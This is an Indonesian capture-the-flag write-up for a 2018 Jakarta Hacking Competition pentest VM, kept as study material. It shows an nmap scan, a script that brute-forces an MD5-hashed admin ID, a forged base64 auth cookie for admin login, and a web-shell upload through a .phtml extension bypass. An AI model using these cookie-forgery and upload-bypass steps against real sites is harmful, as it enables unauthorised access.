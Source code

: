 # Write UP VM Pentest Semi Final Jakarta Hacking Competition.

Berikut ini setting network pada vbox yang diberikan.

![](/JhackVM/images/vbox_net.png)


Berikut tampilan VMnya jika berhasil di import.

![](/JhackVM/images/tampilan1.png)

Dikarenakan kita `Tidak` Diberikan Credential apapun. Maka kita pertama lakukan scanning. Dengan langkah langkah sebagai Berikut.

 - Temukan IP Dari Sever
 - Lakukan Recon pada IP Server

Untuk menemukan IP Asli dari Vboxnya. Kita lakukan `ipconfig` Pada CMD Windows.

![](/JhackVM/images/net.png)

Terlihat disitu IP Dari VBoxnya adalah `192.168.56.1` Tapi itu belum IP Asli dari Server yang kita Import, Maka lakukan scanning dengan `nmap` untuk mendapatkan IP dari Server.

Oke setelah run `nmap` 

```
nmap -sS  192.168.56.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-10 16:04 SE Asia Standard Time
Nmap scan report for 192.168.56.100
Host is up (0.00s latency).
All 1000 scanned ports on 192.168.56.100 are filtered
MAC Address: 08:00:27:E2:1B:E7 (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.56.101
Host is up (0.00056s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
9000/tcp open  http
MAC Address: 08:00:27:65:1C:34 (Oracle VirtualBox virtual NIC)
```

Kita mendapatkan IP asli dari Server adalah. `192.168.56.101` Dan disitu informasi dari IP sudah didapatkan secara minumum. Ada 2 port yang terbuka.

 - 80
 - 9000

Ini adalah preview port 80 

![](/JhackVM/images/web1.png)

Setelah ditelusuri sangat jauh. Ternyata web itu memang hanya template HTML biasa tanpa ada apa apanya. Bisa disebut `Rabbit Hole` Jebakan saja.

Oke Kita buka 9000

![](/JhackVM/images/web2.png)

Seperti itulah tampilanya, Saya sangat tertarik pada page ini. Setelah dicoba coba, Ternyata Loginya tidak bisa dibypass, Maka dilanjutkan dengan register sebuah akun.


![](/JhackVM/images/regis.png)


Oke saya regis dengan credential `Nikko:123`

Lalu saya login dan seperti inilah tampilan web setelah login.

![](/JhackVM/images/home.png)

Saat saya tekan `Flag Here` Ternyata tidak ada apa apa. Lagi lagi `Rabbit Hole` Lalu saya move ke Menu Gallery.

![](/JhackVM/images/g1.png)

![](/JhackVM/images/g2.png)

Seperti itulah tampilan pada Tab Gallery, Disitu terlihat ada sebuah Page Administrator, Tapi saat kami klik kita dikembalikan ke page login.

Saya nyalakan burp untuk mulai melakukan Analisa.

Ada suatu hal yang sangat menarik pada saat kita melakukan request pada `admin.php` 

![](/JhackVM/images/co1.png)


Disitu ada sebuah cookie `auth` yang berisi.

```
eyJpZCI6Ijg1MCIsInVzZXIiOiJOaWtrbyIsInJvbGUiOiJ1c2VyIiwic2lnIjoiVG1scmEyODROVEIxYzJWeSJ9
```

Saat didecode 

```
$ echo -en "eyJpZCI6Ijg1MCIsInVzZXIiOiJOaWtrbyIsInJvbGUiOiJ1c2VyIiwic2lnIjoiVG1scmEyODROVEIxYzJWeSJ9" | base64 -d
{"id":"850","user":"Nikko","role":"user","sig":"Tmlra284NTB1c2Vy"}
```

Setelah di decode base64nya ternyata berbentuk JSON, Pada `sig` terlihat seperti base64 mari decode lagi.

```
$ echo "Tmlra284NTB1c2Vy" | base64 -d
Nikko850user
```

Pada JSON Tersebut bisa dipetakan sebagai berikut.

 - index `id` Berisi id user kita
 - index `user` Berisi username yang kita daftarkan
 - index `role` Set user kita sebagai `user`
 - index `sig` Adalah Base64 dari `user+id+role`


Karena authentikasi pada website ini mengunakan cookie, Maka kita sebenarnya Bebas saya untuk menganti cookie tersebut menjadi cookie login milik orang lain. Namun target kita adalah login sebagai user yang dapat mengakses `admin.php` Dikarenakan kita kekurangan informasi, Kita lanjutkan scanning website dengan port 9000 ini.  

Singkat cerita saya mendapatkan sebuah `robots.txt` Berisi `backup.sql` 

Isi dari backup.sql ini adalah.

```
#For ID use MD5
#For pass sig and role use password_hash 
#Read This admin!

INSERT INTO `user` (`id`, `user`, `pass`, `sig`, `role`) VALUES
('4b6538a44a1dfdc2b83477cd76dee98e', 'Administrator', '$2y$10$4tOngzLdZnNI6SpGJcMLduBSGarzzpLE7/0ayYvIMmHVLXHw.H/gC', '$2y$10$r6aQ.arK6VymipzFBR768u9RT5Pj4Jpmm5EZ2ohDHIcz79FT.bgeS', '$2y$10$Z16BDCKdQLJ/pJY9z.UGSeaW0gjJkGslNGqpxBiGIqsSpSgQGZL36');

COMMIT;
```

Disitu ada sebuah data yang di inputkan. Tapi terlihat hampir semua datanya terenkripsi, Hanya `user` Saja yang tidak yaitu `Administrator` Namun ada hal menarik, ID dari `user` Administrator ini di hash mengunakan MD5. Kita bisa melakukan Bruteforce untuk mengetahui ID Administrator ini. Terlihat pada halaman awal tadi Website ini hanya menyediakan 1000 user, Maka kita hanya perlu membruteforce dari id(1-1001)

Ini script yang saya gunakan.

```
from hashlib import md5

for i in range(1,1001):
	if(md5(str(i)).hexdigest() == "4b6538a44a1dfdc2b83477cd76dee98e"):
		print(i)
		exit(0)
```

Dan saat dijalankan

```
$ python brute.py
945
```

Nah sudah diketahui bahwah `id` Dari Administrator adalah `945` Maka dari itu kita tinggal membuild ulang JSON nya.

```
{"id":"945","user":"Administrator","role":"admin","sig":"QWRtaW5pc3RyYXRvcjk0NWFkbWlu"}
```

role dikarenakan saat registrasi ada radio button `admin` yang disabled maka kita isi dari sini. Dan isi dari `sig` adalah base64 dari `Administrator945admin`

```
$ echo -en  "Administrator945admin" | base64 
QWRtaW5pc3RyYXRvcjk0NWFkbWlu
```

Maka full JSON admin adalah seperti ini

`eyJpZCI6Ijk0NSIsInVzZXIiOiJBZG1pbmlzdHJhdG9yIiwicm9sZSI6ImFkbWluIiwic2lnIjoiUVdSdGFXNXBjM1J5WVhSdmNqazBOV0ZrYldsdSJ9`

Tinggal kita set pada burp dan ganti cookie authnya.

![](/JhackVM/images/admin.png)


Okay kita sudah masuk as Admin. Disitu ada sebuah form upload. Yang digunakan untuk upload ke Gallery tadi. Setelah bersusah payah bypassnya. Ternyata kita harus mengunkan extensi `phtml` untuk dapat membypass validasinya.


Caranya kita rename dulu shell.php kita menjadi shell.php.jpg agar kita tidak perlu set content typenya dulu.

![](/JhackVM/images/up.png)

Oke shell sudah terupload dan kita tinggal akses ke ip:9000/upload/shell.phtml


![](/JhackVM/images/done.png)

Setelah itu kita tinggal lakukan backconnect dari shell tersebut.

Sekian Write Up untuk kali ini, Untuk privilage escalation akan ditulis oleh <a href = "https://kod0kk.wordpress.com/2018/12/10/writeup-pentest-jhack-2018/">`Reyvand`</a> Pada blog pribadinya. Terima Kasih!
